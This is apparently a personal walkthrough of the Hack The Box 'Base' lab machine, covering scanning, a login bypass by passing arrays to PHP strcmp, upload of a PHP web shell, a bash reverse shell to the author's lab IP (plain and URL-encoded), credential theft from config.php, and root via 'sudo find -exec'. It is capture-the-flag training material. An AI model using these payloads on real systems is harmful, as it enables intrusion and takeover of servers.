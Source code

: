 ```yaml
---
title: "HTB Base"
date: 2023-05-30T16:32:14-07:00
draft: false
---
```


# Base by HTB - Starting Point 2 

IP=10.129.95.184
MyIP=10.10.15.79

## nmap 

### nmap -sCV -oN nmap-CV.txt $IP

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f65c9b38eca75c791c1f181c5246f70b (RSA)
|   256 650cf7db42034607f21289fe11202c53 (ECDSA)
|_  256 b865cd3f34d8026ae318233e77dd8740 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome to Base
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


### nmap -p- -T5 $IP
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


from login dir 

<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }


intercept the login and chang

username=admin&password=admin
to
username[]=admin&password[]=admin

and we are logedin

make file to test upload

echo "<?php phpinfo(), ?>" > test.php

*note to self*: when uploading file don't forget to turn off the poxy or at lest see if it can be fowrded 

## Gobuster 
gobuster dir --url http://$IP/ --wordlist /usr/share/wordlists/dirb/big.txt 
2023/05/30 15:55:37 Starting gobuster in directory enumeration mode

/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/_uploaded            (Status: 301) [Size: 318] [--> http://10.129.95.184/_uploaded/]
/assets               (Status: 301) [Size: 315] [--> http://10.129.95.184/assets/]   
/forms                (Status: 301) [Size: 314] [--> http://10.129.95.184/forms/]    
/login                (Status: 301) [Size: 314] [--> http://10.129.95.184/login/]    
/server-status        (Status: 403) [Size: 278]                                      
2023/05/30 15:58:22 Finished


## To login

uplad file that has 
 `<?php echo system($_REQUEST['cmd']);?>`
 in file called webshell.php or other
 
 then go to /_uploaded and open the file in the broser and you should get a ?cmd=
 in the url I had to type it in but it worked once i did 
 then using burp intercept, change the request type to POST from GET then send to reptert and url encode /bin/bash -c 'bash -i >& /dev/tcp/&MyIP/PORT 0>&1'
 `%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%35%2e%37%39%2f%35%35%35%35%20%30%3e%26%31%27`
 then set up your lisaner on the PORT 
 then you will get a rshell
 

 www-data@base:/var/www/html/_uploaded$ cat /var/www/html/login/config.php
cat /var/www/html/login/config.php
<?php
$username = "admin";
$password = "thisisagoodpassword";

ls /home
john

cant su john
so ssh john


##### user.txt
john@base:~$ cat user.txt 
f54846c258f3b4612f78a819573d158e

### Privilege Escalation
john@base:~$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find

john@base:~$ sudo find . -exec /bin/sh \; -quit
\# whoami
root

found at [GTFOBins](https://gtfobins.github.io/gtfobins/find/)

\# cat /root/root.txt
51709519ea18ab37dd6fc58096bea949

this is part of HTB startingpoint tire 2 
thank you 